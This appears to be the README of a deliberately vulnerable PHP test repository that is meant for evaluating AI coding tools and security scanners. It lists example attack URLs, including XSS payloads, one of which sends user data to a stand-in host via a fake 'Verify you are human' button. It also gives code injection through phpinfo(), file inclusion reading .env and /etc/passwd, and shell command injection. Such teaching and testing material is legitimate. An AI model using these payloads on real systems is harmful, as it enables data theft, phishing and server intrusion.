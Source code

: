 # Security Testing PHP Codebase

## Overview
This repository contains intentionally vulnerable code designed to test AI-powered IDE tools and security scanners. The codebase serves as a testing ground to evaluate the effectiveness of various security analysis tools in detecting vulnerabilities.

## Purpose
- Test AI-powered IDE tools' ability to detect security vulnerabilities against PHP codebase. You can prompt the Agent to `What are the vulnerabilities in my code`.
- Evaluate security scanners' effectiveness in identifying common security issues
- Provide a controlled environment for security testing
- Serve as a reference for understanding common security vulnerabilities
- Continuously expand with new vulnerabilities and security test cases over time
- Demonstrate how sensitive environment variables can be exposed through `.env` files in version control (intentionally included to test security scanners)

## Author
Created by Weng Fei Fung

## Usage
This repository is intended for:
- Security researchers
- AI tool developers
- Security testing professionals
- Educational purposes


## Setup

Run on a php server locally. This has been tested on PHP version 8.3.12. You can find your PHP version by running `php --version`. For the example vulnerabilities, you can setup Mamp and have this app folder as `hacks` at the root htdocs and set port to 8888, otherwise adjust the example vulnerability url's as appropriately.

## Example Vulnerabilities
- http://localhost:8888/hacks/echo/?name=%3Cscript%3Ealert(%22You%27re%20hacked%20by%20Weng%20Hackers%20Group!%22);%3C/script%3E
    - Cross-site scripting (XSS)
    - Here exploited to inject into URL's that users share with others a scary message. It's usually to ruin the reputation of a website or to boast that they're hacked by you.
    - Classification: 
        - CAPEC	19
        - CWE	79
        - WASC  8
        - OWASP 2021 A3
- http://localhost:8888/hacks/echo/?name=John%3Cscript%3Edocument.addEventListener(%22DOMContentLoaded%22,()=%3E{const%20d=document.createElement(%22div%22);d.innerHTML=`%3Cbutton%20onclick=%22fetch(%27https://domain.com/api/hacked%27,{method:%27POST%27,body:JSON.stringify({name:%27${name}%27})});%22%3EVerify%20you%20are%20human%3C/button%3E`;document.body.prepend(d)});%3C/script%3E
    - Cross-site scripting (XSS)
    - Here when URL is shared, injects a "Verify you're human" button, but it steals user data stored on the client (could be cookies) and sends it to another server at domain.com/api/hacked/, when the user clicks the button. Notice that is the hacker's server and that the hacker's server must have CORS enabled to accept paylods from other websites.
    - The URL contains a minified code snippet of:
    ```
    document.addEventListener("DOMContentLoaded", () => {
        const div = document.createElement('div');
        div.innerHTML = `<button onclick="fetch('https://domain.com/api/hacked', {
            method:  'POST',
            body: JSON.stringify({name: '${name}'})
        });">Verify you are human</button>`;
        document.body.prepend(div);
    })
    ```
- http://localhost:8888/hacks/echo/?name=hi4;%3Cscript%3Ewindow.location.href=%22https://domain.com%22%3C/script%3E
    - Cross-site scripting (XSS)
    - Here when URL is shared, redirects user to hacker's website. Note the hacker could take things further by making the website look similar to the website the url normally opens to, and then tricks the user to logging in, which can easily store the user credentials since the page is on the hacker's server.
- http://localhost:8888/hacks/commands-php/?user-role=admin;phpinfo();
    - Remote Code Execution (RCE)
    - Here exploited to reveal PHP information that can be used for further attacks.
    - CAPEC	23
    - CWE	95
    - OWASP 2021	A3
- http://localhost:8888/hacks/open-file/?filepath=../.env
    - Local file inclusion (LFI)
    - Here gained access to .env file for API keys
    - CAPEC	252
    - CWE	98
    - WASC	33
    - OWASP 2021	A1
- http://localhost:8888/hacks/open-file/?filepath=%2e.%2f.env
    - Local file inclusion (LFI)
    - Here worked around naive regex security against LFI's `../`
- http://localhost:8888/hacks/open-file/?filepath=../etc/passwd
    - Directory traversal attack (DTA)
    - Here hacker would've broke out of the web document root folder with more `../`'s and accessed the credentials
    - CAPEC	126
    - CWE	23
    - WASC	33
    - OWASP 2021	A1
- http://localhost:8888/hacks/commands-shell/grep.php?search=at
    - Baseline use (Not hacked). But will be used to OS command injection
- http://localhost:8888/hacks/commands-shell/grep.php?search=at%20;ls%20.;
    - OS command injection
    - Here gained access to directory still within the web document root folder
    - Injected between grep command and a grep option.
    - CAPEC	88
    - CWE	78
    - WASC	31
    - OWASP 2021	A3
- http://localhost:8888/hacks/commands-shell/find.php?search=at;ls%20.;
    - OS command injection
    - Here gained access to directory still within the web document root folder
    - Injected at the end of the find command.
- http://localhost:8888/hacks/commands-shell/find.php?search=at;%20whoami
    - ... Here gained access to username of the PHP server
- http://localhost:8888/hacks/commands-shell/find.php?search=at;%20ps%20aux
    - ... Here gained access to a list of processes running at the server
- http://localhost:8888/hacks/commands-shell/find.php?search=at;%20netstat%20-tuln
    - ... Here gained access to network information
    - `lsof -P` is another way for more network information (Eg. `TCP localhost:5001 (LISTEN)` output telling you a port is listening at the server)
    - `iptables`, `firewalld`, etc to inspect allowed ports.

## Warning
⚠️ **IMPORTANT**: This repository contains intentionally vulnerable code. Do not deploy this code in production environments or expose it to untrusted networks. Use only in controlled testing environments.

## Disclaimer
This code is provided for educational and testing purposes only. The author is not responsible for any misuse or damage caused by the code in this repository.
